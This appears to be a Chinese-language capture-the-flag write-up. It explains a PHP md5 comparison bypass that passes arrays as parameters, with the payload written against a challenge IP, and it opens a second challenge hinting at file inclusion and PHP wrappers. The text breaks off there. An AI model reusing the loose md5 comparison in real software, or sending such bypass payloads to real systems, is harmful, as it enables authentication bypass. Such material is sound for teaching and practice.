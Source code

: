 环境：Apache2+php5.6

打开题目可以发现这是一道典型的代码审计，题目源码已经显示在了网页上
```php
<?php
  error_reporting(0);
  include "fl3g.php";
  highlight_file(__file__);
  if(isset($_GET["usr"]) && isset($_GET["pwd"])){
    $usr = $_GET["usr"];
    $pwd = $_GET["pwd"];
    if(md5($usr) == md5($pwd) && $usr!=$pwd){
      echo $flag;
    } 
    else{
      echo "Try Again";
    }
  }
?>
```
题目的关键就在于

```php
if(md5($usr) == md5($pwd) && $usr!=$pwd){
      echo $flag;
    } 
```

这里需要用到php中md5()这个函数的一个漏洞，当传入的参数为数组时，该函数会直接返回false，所以这道题的思路就是构造一个数组，数组中的元素不相等即可绕过md5()

payload：

```
GET
http://http://47.96.230.108:2333/usr[]=1&pwd[]=2
```

# include

打开网页发现一句话

```
Flag is not here.Flag is in flag.php
```

那就访问一下flag.php，又是一句话

```
Flag is here
```

好像没有什么提示

这个给时候就要结合题目本身给的信息了，使用搜索引擎还是一个好习惯

```
什么？你说你不知道php的include()是什么？你也不知道文件包含漏洞是什么？你也不知道什么是php伪协议？好了现在你都知道了XD
```
